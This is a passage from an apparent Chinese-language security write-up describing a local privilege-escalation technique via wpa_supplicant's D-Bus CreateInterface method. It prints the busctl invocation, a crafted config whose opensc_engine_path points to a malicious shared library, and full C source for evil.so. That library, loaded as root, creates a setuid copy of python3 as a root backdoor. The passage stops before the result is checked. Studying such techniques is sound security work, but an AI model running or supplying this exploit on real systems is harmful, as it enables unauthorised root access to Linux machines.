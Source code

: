 ```
busctl call     fi.w1.wpa_supplicant1     /fi/w1/wpa_supplicant1     fi.w1.wpa_supplicant1     CreateInterface     "a{sv}"     3     "ConfigFile" "s" "/tmp/wpa.conf"     "Ifname" "s" "lo"     "Driver" "s" "none"
```  
  
  
但是由于权限限制，当普通用户执行该命令时将报错：  
  
```
$ busctl call     fi.w1.wpa_supplicant1     /fi/w1/wpa_supplicant1     fi.w1.wpa_supplicant1     CreateInterface     "a{sv}"     3     "ConfigFile" "s" "/tmp/wpa.conf"     "Ifname" "s" "lo"     "Driver" "s" "none"
Call failed: Access denied
```  
  
  
因此在测试阶段我们可以先用root身份运行这条命令。那么这条命令能干嘛呢？按照原作者的文章可知，通过设置ConfigFile的路径，可以让wpa_supplicant加载指定的动态链接库，从而执行动态链接库中的逻辑。例如：我们可以这样编写ConfigFile配置文件：  
  
```
ctrl_interface=/var/run/wpa_supplicant
update_config=1
opensc_engine_path=/tmp/stage/evil.so
```  
  
  
这样，  
/tmp/stage/evil.so将以root身份进行加载。简单测试一下！  
  
编写一个evil.c：  
  
```
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor))
void init(void) {    
    if(setuid(0) == 0) {
        system("cp /usr/bin/python3 /tmp/stage/getroot");
        system("chmod u+s /tmp/stage/getroot");
    }
}
```  
  
  
然后编译成/tmp/stage/evil.so  
  
以root身份执行Dbus命令：  
  
```
$ sudo busctl call     fi.w1.wpa_supplicant1     /fi/w1/wpa_supplicant1     fi.w1.wpa_supplicant1     CreateInterface     "a{sv}"     3     "ConfigFile" "s" "/tmp/wpa.conf"     "Ifname" "s" "lo"     "Driver" "s" "none"
Call failed: wpa_supplicant couldn't grab this interface.
```  
  
  
尽管会显示执行失败，但此时动态链接库已经被加载了，查看一下是否生成了  
/tmp/stage/getroot：  
  